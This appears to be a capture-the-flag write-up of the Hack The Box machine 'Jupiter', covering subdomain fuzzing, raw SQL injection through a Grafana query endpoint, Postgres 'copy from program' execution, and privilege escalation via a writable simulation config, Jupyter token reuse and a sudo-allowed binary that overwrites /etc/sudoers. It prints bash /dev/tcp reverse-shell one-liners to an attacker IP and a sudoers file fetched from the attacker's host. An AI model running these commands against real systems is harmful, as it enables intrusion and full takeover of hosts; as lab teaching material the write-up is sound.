









# Jupiter

<figure><figcaption></figcaption></figure>

## User Flag

### Enumeration

Like always, we start off with an nmap scan of the ip address. Do a first quick scan using `--open` to get the ports responding, then a second scan targeting just the ports that replied.

```console
toasty@kali$ nmap --open 10.10.11.216         
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-20 14:08 CDT
Nmap scan report for 10.10.11.216
Host is up (0.033s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 0.79 seconds

toasty@kali$  nmap -sC -sV -p22,80  10.10.11.216
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-20 14:08 CDT
Nmap scan report for 10.10.11.216
Host is up (0.041s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 ac:5b:be:79:2d:c9:7a:00:ed:9a:e6:2b:2d:0e:9b:32 (ECDSA)
|_  256 60:01:d7:db:92:7b:13:f0:ba:20:c6:c9:00:a7:1b:41 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://jupiter.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.86 seconds

```

The web page is going to redirect us to `http://jupiter.htb`, after adding that to our `hosts` file we can visit the site.

### Jupiter.Htb webpage

<figure><figcaption></figcaption></figure>

It is a page for a company that offers services related to astrology such as telescope rentals and stargazing tours. I click around a bit and not much shows up, there is a contact form but doing a few submissions there was nothing that popped out to me showing it to be exploitable. Instead let’s check for sub-domains and subdirectories.

#### ffuf for directories

We run a `ffuf` scan for subdirectories and we only get two hits: `Source` and `sass`. However, when we try to visit these sites we get hit with a `403 Forbidden` error.

```console
toasty@kali ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://jupiter.htb/FUZZ -ic                                                                                                                    
...SNIP 
[Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 32ms]
    * FUZZ: Source

[Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 29ms]
    * FUZZ: sass 

:: Progress: [87651/87651] :: Job [1/1] :: 1342 req/sec :: Duration: [0:01:07] :: Errors: 0 :: 
```

<figure><figcaption></figcaption></figure>

#### ffuf for sub domains

If we run `ffuf` for sub domains on a virtual host it will light up unless we exclude false positives. To effectively do this we can send a `curl` request with a fake sub domain and take that response and use it as a baseline for our ffuf scan.

Getting a fake sub domain request:

```console
toasty@kali$ curl -I jupiter.htb -H "HOST: totallyfakedomain.jupiter.htb"                                                        
HTTP/1.1 301 Moved Permanently
Server: nginx/1.18.0 (Ubuntu)
Date: Fri, 20 Oct 2023 19:16:19 GMT
Content-Type: text/html
Content-Length: 178
Connection: keep-alive
Location: http://jupiter.htb/
```

Now we can use the `-fs` flag on ffuf with the above `content-length` value to exclude false positives.

```console
toasty@kali$ ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt:FUZZ -u http://jupiter.htb -H "HOST: FUZZ.jupiter.htb" -fs 178  

...SNIP

 :: Method           : GET
 :: URL              : http://jupiter.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.jupiter.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

[Status: 200, Size: 34390, Words: 2150, Lines: 212, Duration: 118ms]
    * FUZZ: kiosk
```

We get a hit on `kiosk.jupiter.htb` which we can add to our hosts file and visit.

### Kiosk.jupiter.htb

<figure><figcaption></figcaption></figure>

The page is a dashboard about moons and planets. The word `kiosk` in the title gives me the mental image this is being displayed in a museum somewhere and people can come up and interact with it. The page is using `Grafana` which is an open source analytic and visualization tool.

<figure><figcaption></figcaption></figure>

There is also a login page at `kiosk.jupiter.htb/login` but we currently don't have any credentials. At the bottom we can see the version of `Grafana` is `v.9.5.2`. We can come back to this page if we find any. !kiosk login

### Burpsuite

I usually have `burpsuite` running in the back when I check out these webpages, that way I can go back and poke around at requests that were made. When we load the homepage of `kiosk.jupiter.htb` it loads the page. What is interesting is that when the page is running a `POST` request is made to `/api/ds/query`.

<figure><figcaption></figcaption></figure>

The request is just using a raw SQL query and is passing it directly to the database. The request also shows we are using a `postgresql` database. Let’s forward this request to Burpsuite's repeater and play with it.

### Postgresql Injection

Let's try a simple request and see if we can get the version of postgres that is running.

<figure><figcaption></figcaption></figure>

Success! We see we are running `PostgreSQL version 14.8`. Let's try to get a list of databases.

<figure><figcaption></figcaption></figure>

From here I played around with a few things, we were able to see that we were running as the `grafana_viewer` postgres user and we were a super user.

We can also list and read files on the system, I first tried with `/etc/passwd`:

<figure><figcaption></figcaption></figure>

It is hard to see in the clutter above but listing the `/home` directory we can see two users on the machine: `juno` and `jovian`

<figure><figcaption></figcaption></figure>

#### SQL Command Execution

If we are a super user in postgres we can run the following commands one by one to get code execution on the host:

```sql
drop table if exists toasty_excec;
create table toasty_exec(cmd_output text);
copy toasty_exec from program 'id';
select * from toasty_exec;
```

`toasty_exec` is an arbitrary table name that will hold the output of your commands. If we follow the above steps exactly, we can see the database is running as the `postgres` user:

<figure><figcaption></figcaption></figure>

### Reverse Shell

We can use this to get a reverse shell on the machine. Following the same steps above we just switch out the `id` command for one that calls back to our attack host. We have a netcat listener on port `9001` and we get a shell as the `postgres` user.

#### SQL Command:

```sql
copy toasty_exec from program 'bash -c \"bash -i >& /dev/tcp/10.10.14.226/9001 0>&1\"';
```

#### Execution and Reverse Shell:

<figure><figcaption></figcaption></figure>

### Pspy

There was a lot of enumeration here I won't cover. Searching for files/hidden items/permissions, trying to do a lot of manual checking. I did end up running `pspy` to watch processes. I won’t cover the steps of moving the pspy file over from my attack machine to the target. There is a job running as uid 1000 or `juno`.

<figure><figcaption></figcaption></figure>

### Shadow Simulation

I didn't know what shadow was but it appears to be a [network simulation tool](https://shadow.github.io/docs/guide/design\_2x.html). It looks like every few minutes or so this is running as `juno` and calling the `shadow` bin and running against the `network-simulation.yml` file in the `/dev/shm/` directory. A quick look shows we do have read/write permissions over the `/dev/shm/network-simulation.yml` file.

```
postgres@jupiter:/var/lib/postgresql/14/main$ ls -al /dev/shm
total 32
drwxrwxrwt  3 root     root       100 Oct 21 17:10 .
drwxr-xr-x 20 root     root      4040 Oct 21 06:32 ..
-rw-rw-rw-  1 juno     juno       815 Mar  7  2023 network-simulation.yml
-rw-------  1 postgres postgres 26976 Oct 21 06:32 PostgreSQL.745567662
drwxrwxr-x  3 juno     juno       100 Oct 21 17:10 shadow.data
```

And here is the `network-simulation.yml` file:

```
general:
  # stop after 10 simulated seconds
  stop_time: 10s
  # old versions of cURL use a busy loop, so to avoid spinning in this busy
  # loop indefinitely, we add a system call latency to advance the simulated
  # time when running non-blocking system calls
  model_unblocked_syscall_latency: true

network:
  graph:
    # use a built-in network graph containing
    # a single vertex with a bandwidth of 1 Gbit
    type: 1_gbit_switch

hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/python3
      args: -m http.server 80
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    quantity: 3
    processes:
    - path: /usr/bin/curl
      args: -s server
      start_time: 5s

```

The `processes` part of the .yml looks to be binaries that are being called, and `args` is the arguments being passed to them. We can see that the `server` section is running a python server on port `80` and the `client` is running `curl` against the `server` host.

#### Euid and Bits

This page on [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/euid-ruid-suid) has a good information on `euid`, `ruid`, and `suid` permissions. But in short, since the process is running as `juno` we can use the `suid` bit to escalate our privileges. Instead of using `python3` and `curl` binaries, we use `cp` and `chmod` to copy `/bin/bash` to `/tmp/` and then it will keep the `juno` bits on it.

To explain it how I understand it:

1. We copy the `/bin/bash` to `/tmp` because usually root is the only one who can edit the `/bin/bash` file.
2. When running the `chmod u+s` on our new `/tmp/bash` binary, whenever the binary is ran, it will be ran as the owner (which is now `juno`).
3. We still need the `-p` flag though because if we just ran `/tmp/bash` then our `euid` would be set to the current user. With the `-p` flag, we get the `euid` of the owner of the file.

There is definitely a lot I learned here about permissions, but it also shows me there is so much I do not know.

Here is the edited section of the `network-simulation.yml` file:

```
...SNIP
hosts:
  # a host with the hostname 'server'
  server:
    network_node_id: 0
    processes:
    - path: /usr/bin/cp
      args: /usr/bin/bash /tmp/junobash
      start_time: 3s
  # three hosts with hostnames 'client1', 'client2', and 'client3'
  client:
    network_node_id: 0
    processes:
    - path: /usr/bin/chmod
      args: u+s /tmp/junobash
      start_time: 5s

```

Now we wait, and after some time the file `/tmp/junobash` appears. We can use the `-p` flag to inherit the effective user id (euid) of the file when we execute it.

```console
postgres@jupiter:/dev/shm$ /tmp/junobash -p
junobash-5.1$ id
uid=114(postgres) gid=120(postgres) euid=1000(juno) groups=120(postgres),119(ssl-cert)
```

### Juno SSH Access

Now we have a shell as `juno` as noted by the `euid`. Going to `/home/juno`, we cannot read the `user.txt` file because it is owned by `root` and the `juno` user does not have permissions, only the `juno` group.

```console
junobash-5.1$ ls -al
total 52
drwxr-x---  8 juno juno 4096 Oct 21 07:00 .
drwxr-xr-x  4 root root 4096 Mar  7  2023 ..
lrwxrwxrwx  1 juno juno    9 Mar  7  2023 .bash_history -> /dev/null
-rw-r--r--  1 juno juno  220 Jan  6  2022 .bash_logout
-rw-r--r--  1 juno juno 3792 Mar  7  2023 .bashrc
drwx------  3 juno juno 4096 May  4 18:59 .cache
drwxrwxr-x  5 juno juno 4096 Mar  7  2023 .cargo
drwxrwxr-x  5 juno juno 4096 Mar  7  2023 .local
-rw-r--r--  1 juno juno  828 Mar  7  2023 .profile
drwxrwxr-x  6 juno juno 4096 Mar  7  2023 .rustup
drwxrwxr-x 12 juno juno 4096 Mar  9  2023 shadow
-rwxrwxr-x  1 juno juno  174 Apr 14  2023 shadow-simulation.sh
drwx------  2 juno juno 4096 Oct 21 07:01 .ssh
-rw-r-----  1 root juno   33 Oct 21 06:32 user.txt

```

There is a `.ssh` folder though, so we can generate a keypair and upload it to the machine. Once our public key is on the machine and put in `/home/juno/.ssh/authorized_keys` we have SSH access. (The key I have created is called `jupiter_rsa`)

```console
toasty@kali$ ssh -i jupiter_rsa juno@10.10.11.216
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-72-generic x86_64)
...SNIP

Last login: Wed Jun  7 15:13:15 2023 from 10.10.14.23
juno@jupiter:~$ id
uid=1000(juno) gid=1000(juno) groups=1000(juno),1001(science)

```

### User.txt

Finally we can get the user flag:

```console
juno@jupiter:~$ cat user.txt 
7a4f****************************
```

## Machine Flag

### Enumeration as Juno

Again, once we get new access we start our enumeration steps over. One thing that we see from previous commands is that `juno` is in the `science` group. Let's look for files/directories that are owned by the `science` group.

```console
juno@jupiter:~$ find / -group science 2>/dev/null
/opt/solar-flares
/opt/solar-flares/flares.csv
/opt/solar-flares/xflares.csv
/opt/solar-flares/map.jpg
/opt/solar-flares/start.sh
/opt/solar-flares/logs
/opt/solar-flares/logs/jupyter-2023-03-10-25.log
/opt/solar-flares/logs/jupyter-2023-03-08-37.log
/opt/solar-flares/logs/jupyter-2023-03-08-38.log
/opt/solar-flares/logs/jupyter-2023-03-08-36.log
/opt/solar-flares/logs/jupyter-2023-03-09-11.log
/opt/solar-flares/logs/jupyter-2023-03-09-24.log
/opt/solar-flares/logs/jupyter-2023-03-08-14.log
/opt/solar-flares/logs/jupyter-2023-03-09-59.log
/opt/solar-flares/flares.html
/opt/solar-flares/cflares.csv
/opt/solar-flares/flares.ipynb
/opt/solar-flares/.ipynb_checkpoints
/opt/solar-flares/mflares.csv
```

#### Solar-Flares

Browsing to the `/opt/solar-flares/` directory, it appears to be a for solar flare data, stored in a jupyter notebook. Jupyter notebooks are interactive documents that can be used to run code and display results. Reading one of the `log` files we have access to we can see that the the notebook is running on port `8888`, and we can check `netstat` to confirm that:

```console
juno@jupiter:~$ cat /opt/solar-flares/logs/jupyter-2023-03-10-25.log 
[W 17:25:41.572 NotebookApp] Terminals not available (error was No module named 'terminado')
[I 17:25:41.588 NotebookApp] Serving notebooks from local directory: /opt/solar-flares
[I 17:25:41.588 NotebookApp] Jupyter Notebook 6.5.3 is running at:
[I 17:25:41.588 NotebookApp] http://localhost:8888/?token=ff0e0d45e2c953a0e942abc9008b03d728cf989ad9f93f9b
[I 17:25:41.588 NotebookApp]  or http://127.0.0.1:8888/?token=ff0e0d45e2c953a0e942abc9008b03d728cf989ad9f93f9b
[I 17:25:41.588 NotebookApp] Use Control-C to stop this server and shut down all kernels (twice to skip confirmation).
[W 17:25:41.597 NotebookApp] No web browser found: could not locate runnable browser.
[C 17:25:41.597 NotebookApp] 
    
    To access the notebook, open this file in a browser:
        file:///home/jovian/.local/share/jupyter/runtime/nbserver-945-open.html
    Or copy and paste one of these URLs:
        http://localhost:8888/?token=ff0e0d45e2c953a0e942abc9008b03d728cf989ad9f93f9b
     or http://127.0.0.1:8888/?token=ff0e0d45e2c953a0e942abc9008b03d728cf989ad9f93f9b
[C 17:37:07.097 NotebookApp] received signal 15, stopping
[I 17:37:07.097 NotebookApp] Shutting down 0 kernels

juno@jupiter:~$ netstat -a
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 localhost:postgresql    0.0.0.0:*               LISTEN     
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN     
tcp        0      0 localhost:3000          0.0.0.0:*               LISTEN     
tcp        0      0 localhost:8888          0.0.0.0:*               LISTEN 
```

### SSH Port Forward

Since the jupyter notebook is only listening on `localhost`, we can use SSH to port forward `8888` to our machine. The below command will route traffic to port `8686` on our machine to `localhost:8888` on the target machine.

```console
toasty@kali$ ssh -L 8686:localhost:8888 -i id_rsa juno@10.10.11.216
```

### Jupyter Notebook

We can visit `localhost:8686` on our machine to see the jupyter notebook login page.

<figure><figcaption></figcaption></figure>

The login page requires a token, which we can see in the log file above. Assuming the token changes each time the notebook is started, we can just copy the token from the most recent log file.

```console
juno@jupiter:/opt/solar-flares$ grep -r localhost:8888/?token 2>/dev/null                                                                                                                                                                   
logs/jupyter-2023-05-04-20.log:[I 17:20:36.090 NotebookApp] http://localhost:8888/?token=b56d663f59a58570177c92c7bb992f90b252f97e9d04ab4a
logs/jupyter-2023-05-04-20.log:        http://localhost:8888/?token=b56d663f59a58570177c92c7bb992f90b252f97e9d04ab4a
logs/jupyter-2023-10-21-32.log:[I 06:32:08.766 NotebookApp] http://localhost:8888/?token=cfc5499130c46542b87dbad55609ebe7b7df6bd0fbdb1740
logs/jupyter-2023-10-21-32.log:        http://localhost:8888/?token=cfc5499130c46542b87dbad55609ebe7b7df6bd0fbdb1740
logs/jupyter-2023-05-30-53.log:[I 13:53:10.516 NotebookApp] http://localhost:8888/?token=99515a46ec9771332b4bdb8c6345f556d0b9033ebb857bfc
logs/jupyter-2023-05-30-53.log:        http://localhost:8888/?token=99515a46ec9771332b4bdb8c6345f556d0b9033ebb857bfc
logs/jupyter-2023-05-04-31.log:[I 19:31:14.404 NotebookApp] http://localhost:8888/?token=32c191b5c60eee4f4a2a8c71498d0d285a82433f1629e44d
logs/jupyter-2023-05-04-31.log:        http://localhost:8888/?token=32c191b5c60eee4f4a2a8c71498d0d285a82433f1629e44d
logs/jupyter-2023-03-10-25.log:[I 17:25:41.588 NotebookApp] http://localhost:8888/?token=ff0e0d45e2c953a0e942abc9008b03d728cf989ad9f93f9b
logs/jupyter-2023-03-10-25.log:        http://localhost:8888/?token=ff0e0d45e2c953a0e942abc9008b03d728cf989ad9f93f9b
logs/jupyter-2023-04-13-43.log:[I 10:44:02.485 NotebookApp] http://localhost:8888/?token=7c07a1dec44c592d51fffbe41d93478ed81b5bd6536f4e9e
... SNIP
```

#### Logged In

Using the token from `2023-10-21-32` we are able to get in!

<figure><figcaption></figcaption></figure>

I go straight for the `flares.ipynb` because that is the acutal notebook and where code execution will be done.

### Jupyter Notebook Code Execution

I’ve used jupyter notebooks a bit for school back in the day so this wasn’t a foreign concept to me. You just need to create cells, where you put your code that you want to run and you can execute the `cells` independently of each other. Once I get in the jupyter notebook, I create two new cells. The first cell imports the `os` module and the second cell runs the `id` command.

<figure><figcaption></figcaption></figure>

#### Shell as Jovian

We now have a shell running as `jovian` and we are still in the `science` group. We can use the same method as before to get a reverse shell as `jovian`:

Jupyter Notebook Command

```python
os.system("bash -c \"bash -i >& /dev/tcp/10.10.14.226/9001 0>&1\"")
```

Netcat Listener

```console
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.226] from (UNKNOWN) [10.10.11.216] 40112
bash: cannot set terminal process group (3752): Inappropriate ioctl for device
bash: no job control in this shell
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

jovian@jupiter:/opt/solar-flares$ id
id
uid=1001(jovian) gid=1002(jovian) groups=1002(jovian),27(sudo),1001(science)
```

### Enumeration as Jovian

Enumeration part 3, this time as `jovian`. Running `sudo -l` we can see that we can run `/usr/local/bin/sattrack` as `root` without a password.

```console
jovian@jupiter:/opt/solar-flares$ sudo -l
sudo -l
Matching Defaults entries for jovian on jupiter:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/local/bin/sattrack
```

### Sattrack

I don’t know what `sattrack` is, and a quick google shows it may be related to satellite tracking. Trying to run `sattrack` gives us an error:

```console
jovian@jupiter:/tmp/tmpy$ /usr/local/bin/sattrack 
Satellite Tracking System
Configuration file has not been found. Please try again!
```

#### Sattrack Config

We appear to be missing a config file. We look for file types, with the name `*conf*` and only show the ones that contain `sat` in the name. We get a few hits, but the one that stands out is `/usr/local/share/sattrack/config.json`.

```console
jovian@jupiter:/tmp/tmpy$ find / -type f -name "*conf*" 2>/dev/null | grep sat
/usr/src/linux-headers-5.15.0-72/arch/arm/mach-versatile/Kconfig
/usr/src/linux-headers-5.15.0-72/drivers/soc/versatile/Kconfig
/usr/src/linux-headers-5.15.0-72/drivers/clk/versatile/Kconfig
/usr/src/linux-headers-5.15.0-71/arch/arm/mach-versatile/Kconfig
/usr/src/linux-headers-5.15.0-71/drivers/soc/versatile/Kconfig
/usr/src/linux-headers-5.15.0-71/drivers/clk/versatile/Kconfig
/usr/local/share/sattrack/config.json
```

Opening up the config.json we see:

```json
{
        "tleroot": "/tmp/tle/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "http://celestrak.org/NORAD/elements/weather.txt",
                "http://celestrak.org/NORAD/elements/noaa.txt",
                "http://celestrak.org/NORAD/elements/gp.php?GROUP=starlink&FORMAT=tle"
        ],

        "updatePerdiod": 1000,

        "station": {
                "name": "LORCA",
                "lat": 37.6725,
                "lon": -1.5863,
                "hgt": 335.0
        },

        "show": [
        ],

        "columns": [
                "name",
                "azel",
                "dis",
                "geo",
                "tab",
                "pos",
                "vel"
        ]
}
```

Even though we found the config file, as we saw above, trying to run `sattrack` gives us an error.

#### Sattrack Strings for Config

We can use a few different commands to try and dissect the binary like `strings` or `strace`. I use `strings` and grep for mentions of the word `conf`:

```console
jovian@jupiter:/tmp/tmpy$ strings /usr/local/bin/sattrack | grep conf
/tmp/config.json
tleroot not defined in config
updatePerdiod not defined in config
station not defined in config
name not defined in config
lat not defined in config
lon not defined in config
hgt not defined in config
mapfile not defined in config
texturefile not defined in config
Malformed JSON conf: 
tlefile not defined in config
su_lib_log_config
_GLOBAL__sub_I__Z6configB5cxx11
```

#### Running sattrack with config

We can see that the binary mentions a config file in `/tmp/config.json`. We can copy the `config.json` from the share to the `/tmp` directory.

```console
jovian@jupiter:/tmp/tmpy$ cp /usr/local/share/sattrack/config.json /tmp/config.json
jovian@jupiter:/tmp/tmpy$ ls /tmp/
config.json
snap-private-tmp
..SNIP
```

Now running the `sattrack` binary we get a different response:

```console
jovian@jupiter:/tmp$ sudo /usr/local/bin/sattrack 
Satellite Tracking System
Get:0 http://celestrak.org/NORAD/elements/weather.txt
Could not resolve host: celestrak.org

```

Looking at that error, it looks like the `sattrack` binary is trying to make a request to the `tlesources` in the config file.

### Reading Local Files As Root

We can use the file URI scheme to read files on the system. Since we are running `sattrack` as `root`, any file is up for grabs.

I tried to read `/etc/passwd` to make sure I was correct:

Updated Config Snippet:

```json
{
        "tleroot": "/tmp/tle/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "FILE:///etc/passwd"
        ],

...SNIP
}

```

Re-running the `sattrack` binary after updating config:

```console
jovian@jupiter:/tmp$ sudo /usr/local/bin/sattrack 
Satellite Tracking System
Get:0 FILE:///etc/passwd
Satellites loaded
No sats
jovian@jupiter:/opt/solar-flares$ ls -la /tmp/tle
total 24
drwxr-xr-x  2 root root 4096 Oct 21 08:50 .
drwxrwxrwt 16 root root 4096 Oct 21 08:54 ..
-rw-r--r--  1 root root 2045 Oct 21 08:50 passwd
-rw-r--r--  1 root root    9 Oct 21 08:40 weather.txt

```

The `/etc/passwd` file was copied to the `tleroot` location and kept the same name. So we now appear to have access to copy/move any file as `root`.

There are many different ways we could abuse this to get a `root` shell, I went with changing the `sudoers` file. By changing `sudoers` we can give jovianpermission to run any command we want as `root` without a password.

### Sudoers Edit

First, we run `sattrack` with an updated config file to get a copy of the `/etc/sudoers` file in the `/tmp/tle` directory. Then we edit the `sudoers` file to give our user `jovian` sudo permissions to use `less`. I chose `less` for a fun example, it's not the most efficient and we could have easily just given ourselves full `sudo` powers.

Here is the updated `sudoers` file that will give our user jovian sudo permission to run `less` with no password:

```
#Defaults:%sudo env_keep += "SSH_AGENT_PID SSH_AUTH_SOCK"
# Ditto for GPG agent
#Defaults:%sudo env_keep += "GPG_AGENT_INFO"
# Host alias specification
# User alias specification
# Cmnd alias specification
# User privilege specification
root    ALL=(ALL:ALL) ALL
jovian  ALL=(ALL) NOPASSWD:/usr/local/bin/sattrack,/usr/bin/less
# Members of the admin group may gain root privileges
#%admin ALL=(ALL) ALL
# Allow members of group sudo to execute any command
#%sudo  ALL=(ALL:ALL) ALL
# See sudoers(5) for more information on "@include" directives:
@includedir /etc/sudoers.d
```

Now we have to update the `/tmp/config.json` file to use `/etc` as the `tleroot` so that when it runs it overwrites the existing `sudoers` file. I also set the `tlesources` as my attack machine and hosted the edited `sudoers` file on port 8000.

Snippet of updated config:

```json
{
        "tleroot": "/etc/",
        "tlefile": "weather.txt",
        "mapfile": "/usr/local/share/sattrack/map.json",
        "texturefile": "/usr/local/share/sattrack/earth.png",

        "tlesources": [
                "http://10.10.14.226:8000/sudoers"
        ],

...SNIP
}

```

#### Using Less for Root

Now we can confirm our `sudo` powers by running `sudo -l`, and then running `sudo less /etc/passwd` (This could be any file, I just chose to use `/etc/passwd` again). Once the `/etc/passwd` file comes up type `!/bin/bash` and we are in a root shell!

```console
jovian@jupiter:~$ sudo -l
User jovian may run the following commands on jupiter:
    (ALL) NOPASSWD: /usr/bin/less, /usr/local/bin/sattrack
jovian@jupiter:~$ sudo /usr/bin/less /etc/passwd
root@jupiter:/home/jovian# id
uid=0(root) gid=0(root) groups=0(root)

```

Once I got in as root, I also went back and made sure to change the `sudoers` file back to only being able to run `sattrack` for `jovian`.

### Root.txt

Finally, we retrieve the root flag:

```console
root@jupiter:/home/jovian# cat /root/root.txt
dc57f***************************
```
